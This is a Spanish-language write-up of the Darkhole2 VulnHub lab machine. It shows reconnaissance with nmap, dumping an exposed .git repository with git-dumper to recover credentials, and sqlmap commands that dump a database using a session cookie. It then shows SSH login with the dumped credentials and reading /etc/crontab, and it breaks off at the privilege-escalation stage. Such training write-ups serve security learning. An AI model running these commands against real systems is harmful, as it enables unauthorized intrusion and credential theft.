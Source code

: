 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Explotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

### BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

### Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/6f481be5-6ea5-4d6d-a0b4-cc0253ba88c4)
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" --dbs –batch
~~~

Obtuvimos algunas bases de datos en cuestión de minutos. Entonces, iniciamos otro comando (usando el parámetro -D) para volcar la base de datos llamada darkhole_2

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3cd9ae27-b481-4022-a0bf-34499d6aa230)

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3480ebbb-a385-4252-b9d4-659b051f6225)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" -D darkhole_2 --dump-all --batch
~~~

En cuestión de momentos, descubrimos las credenciales ssh para el usuario Jehad en esta base de datos de volcado. 

~~~
User: jehad
Pass: fool
~~~

Ahora, usando estas credenciales ssh, iniciamos sesión con el usuario Jehad y abrimos su identificación para autenticarlo.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/cf4abf46-fdfd-475e-95b5-290e7efff130)

~~~
ssh jehad@192.168.40.133
id
~~~

## Escala de privilegios

Vemos un cron  que se ejecuta con el usuario losy.

Aquí podemos ver que un servidor web se está ejecutando en el puerto 9999. Cuando vemos el contenido del código fuente, vemos que esto permite la ejecución remota de comandos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/dc94e9dc-3ae6-4bb0-8952-f6756a3bdcb7)

    cat /etc/crontab




